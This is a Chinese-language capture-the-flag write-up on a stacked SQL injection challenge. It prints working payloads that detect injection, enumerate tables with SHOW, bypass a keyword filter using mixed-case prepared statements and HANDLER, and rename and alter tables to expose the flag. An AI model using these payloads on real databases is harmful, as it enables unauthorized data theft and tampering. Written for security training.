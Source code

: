```yaml
---
Author: Coder-LYQ
Date: 2020-12-19
---
```


## flag

（每一次的flag都不同）

## 思路

1. 对于这类直观的SQL注入题目，可以直接输入几组数据进行测试。输入1，会正常显示查询结果。

   接下来就判断是字符型注入还是数字型注入。

   一般数字型注入：

   ​	`select * from *** where id=num`

   - 2-1  --》 正常显示输入1时的结果
   - 1 and 1=1和1 and 1=2 两次结果不同

   字符型注入：

      `select * from *** where id ='num'`

   - 1' and '1'='1  和1' and '1'='2 结果不同
   - 1' and '1'='1' --+ 和 1' and '1'='2' --+ 结果不同

<img src="/images/image-20201222212022041.png" alt="image-20201222212022041" style="zoom:33%;" />

2. 本题输入1' and '1'='1，显示结果和直接输入1一致。

   <img src="/images/image-20201222213617141.png" alt="image-20201222213617141" style="zoom:33%;" />

   再输入1' and '1'='2，无任何结果显示。说明存在sql字符型注入。

   <img src="/images/image-20201222213724343.png" alt="image-20201222213724343" style="zoom:33%;" />

   3. 确定字符型注入之后，判断列数 1' order by 1/2/3--+

      order by 3时页面显示不正常，说明只存在两列。

      另一种判断列数方法，1' union select 1,2,3(....) --+

   4. 尝试union select语句时，页面直接显示：

      <img src="/images/image-20201222215509025.png" alt="image-20201222215509025" style="zoom:33%;" />

      说明waf将select、update、delete、drop、insert和where等关键字过滤。

   5. 考虑堆叠注入，利用;闭合前面语句的执行，再加上需要执行的语句，且以上常见的关键字都被过滤掉了

      --》可以使用`show databases/tables/columns from table`来获取数据库、数据表和列名。

   6. 获取数据库相关信息   

      `1';show databases;--+`

      获取当前数据库中的表信息

      `1';show tables;--+`

      <img src="/images/image-20201222220208159.png" alt="image-20201222220208159" style="zoom:33%;" />

      获取表中的列信息

      `1';show columns from words;--+`

      <img src="/images/image-20201222220640461.png" alt="image-20201222220640461" style="zoom:33%;" />
   
      `1';show columns from 1919810931114514;--+` (当数据表名为数字时，需要使用``括起来)
   
      <img src="/images/image-20201222220806395.png" alt="image-20201222220806395" style="zoom:33%;" />
   
   7. 可以从两个的列信息中看出，words中主要是id和data两列，有可能在输入框中输入数字时，后端读取的就是该表中的内容；另一个表中有flag列，说明flag可能存在于该表中。
   
   8. 因此，要想获取flag，则有两种思路：
   
      1. 直接从flag列中读取
         1. 绕过select过滤
         2. handler语句
      2. 将表1919810931114514添加一列id，并改名成flag（让前端传数据到后端后，后端实际操作的是该表，就可以直接将表中的数据读出来）
   
   9. 难点1：直接从flag表中读数据--》select被过滤
   
      **绕过select过滤方法：**
   
      - 大小写绕过、添加/**/绕过（但此处preg_match中的正则表达式最后为/i，说明在匹配时不区分大小写，故此方法无用）
   
      - 使用预处理语句
   
        预处理的流程包含：
   
        > ```sql
        > SET @**;								# 用于设置变量名和值
        > PREPARE stmt_name FROM preparable_stmt;	# 用于预备一个语句，并赋予名称，以后可以引用该语句
        > EXECUTE stmt_name;			 			# 执行语句
        > {DEALLOCATE | DROP} PREPARE stmt_name;	# 用来释放掉预处理的语句
        > ```
   
      ​        对于本题构造的预处理语句如下：
   
      ```sql
      1';SEt @a=concat("SEl","ect flag from `1919810931114514`");PRepare hello from @a;execute hello;#
      ```
   
      说明：预处理语句中set和prepare均使用大小写混用，因为页面提示输出以下内容。
   
      ```
      [OUTPUT]: strstr($inject, "set") && strstr($inject, "prepare")
      ```
   
      ​    strstr()函数对大小写敏感，所以可以使用大写绕过。
   
   10. 直接使用handler语句
   
       mysql除可使用select查询表中的数据，也可使用handler语句，这条语句使我们能够一行一行的浏览一个表中的数据，不过handler语句并不具备select语句的所有功能。它是mysql专用的语句，并没有包含到SQL标准中。
   
       > ```sql
       > HANDLER tbl_name OPEN [ [AS] alias]
       > # 打开一张表，无返回结果，实际上声明了一个名为tb1_name的句柄。
       > HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
       >     [ WHERE where_condition ] [LIMIT ... ]
       > HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
       >     [ WHERE where_condition ] [LIMIT ... ]
       > HANDLER tbl_name READ { FIRST | NEXT }
       >     [ WHERE where_condition ] [LIMIT ... ]
       > # 获取句柄的第一行，通过READ NEXT依次获取其它行。最后一行执行之后再执行NEXT会返回一个空的结果。
       > HANDLER tbl_name CLOSE
       > # 关闭打开的句柄。
       > ```
   
       ```sql
       
       1';
       handler `1919810931114514` open;
       handler `1919810931114514` read first;-- +
       ```
   
       
   
   11. 难点2：“换个名”（考察对sql操作熟练程度）
   
       根据前文的分析，可以看出在输入框中输入数字1、2等之后，后端接收数字之后在words数据表中查询内容显示，而根据前面已经查询已经得出表words和表1919810931114514的列信息，因此可以尝试（换个名），将表1919810931114514的表结构改成和words一样，即增加一个id列，且将表名改成words，即可直接通过在输入框中输入1，来获取flag值。
   
       步骤：
   
       - 表words改名：rename table words to new_word;
   
       - 表1919810931114514增加id列：alter table 1919810931114514 add id int unsigned not Null auto_increment primary key;
   
       - 修改表1919810931114514的flag列为data列名：alter table 1919810931114514 change flag data varchar(100);
   
       - 表1919810931114514改名：rename table `1919810931114514` to words;
   
         此时再直接向输入框中输入1，即可获取flag的内容。
   
       ```sql
       1';rename table words to temp;alter table `1919810931114514` add id int unsigned not Null auto_increment primary key;alter table `1919810931114514` change flag data varchar(100);rename table `1919810931114514` to words;#
       ```

## 总结

- 本题考察对sql注入各种类型的熟练程度，如果对每种sql注入类型都比较了解，则可以比较快的定位到使用堆叠注入。
- 因为select、update、delete、drop、insert和where这些关键字均被过滤掉，而且采用常见的大小写绕过、注释符绕过不行，所以常用的union注入走不通。
- 使用堆叠注入，就意味着可以正常构造一些sql进行执行，查询需要的数据。show database、tables、columns from table_name，即可获取数据库名、表名和列名。
- 两种绕过select过滤方法
  - **直接**  使用预处理语句或者handler语句（mysql特有）
  - **间接**  利用题目已有的条件，改表名和表结构
- 注意  当表名、字段名为数字时，需要用**反引号**来标识